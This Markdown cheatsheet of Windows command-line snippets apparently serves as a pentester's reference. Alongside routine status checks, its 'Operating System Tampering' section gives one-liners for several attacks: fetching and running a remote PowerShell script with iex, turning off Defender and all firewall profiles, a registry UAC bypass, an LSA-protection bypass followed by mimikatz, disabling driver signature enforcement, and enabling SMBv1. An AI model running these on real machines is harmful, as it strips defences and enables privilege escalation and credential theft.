 ```yaml
---
layout: default
title: Sysadmin CLI WIN
parent: Sysadmin
categories: Sysadmin
grand_parent: Cheatsheets
last-modified: 2021-11-17
---
```

<!-- vscode-markdown-toc -->
* 1. [Security Checks](#SecurityChecks)
	* 1.1. [configure ip address](#configureipaddress)
	* 1.2. [listing kb](#listingkb)
	* 1.3. [windows firewall status](#windowsfirewallstatus)
	* 1.4. [windows defender status](#windowsdefenderstatus)
* 2. [Operating System Tampering](#OperatingSystemTampering)
	* 2.1. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 2.2. [windows defender: disable](#windowsdefender:disable)
	* 2.3. [windows firewall: disable](#windowsfirewall:disable)
	* 2.4. [windows uac: bypass](#windowsuac:bypass)
	* 2.5. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 2.6. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 2.7. [SMBv1: enable](#SMBv1:enable)
* 3. [Windows DISM](#WindowsDISM)
* 4. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

# {{ page.title }}

##  1. <a name='SecurityChecks'></a>Security Checks

###  1.1. <a name='configureipaddress'></a>configure ip address
```batch
netsh
interface ip set address "connection name" static 192.168.1.1 255.255.255.0 192.168.1.254
```
###  1.2. <a name='listingkb'></a>listing kb
```batch
wmic qfe list full /format:table
```

###  1.3. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  1.4. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  2. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  2.1. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
#version 1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  2.2. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  2.3. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  2.4. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  2.5. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  2.6. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  2.7. <a name='SMBv1:enable'></a>SMBv1: enable
```batch
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation
```

##  3. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  4. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```
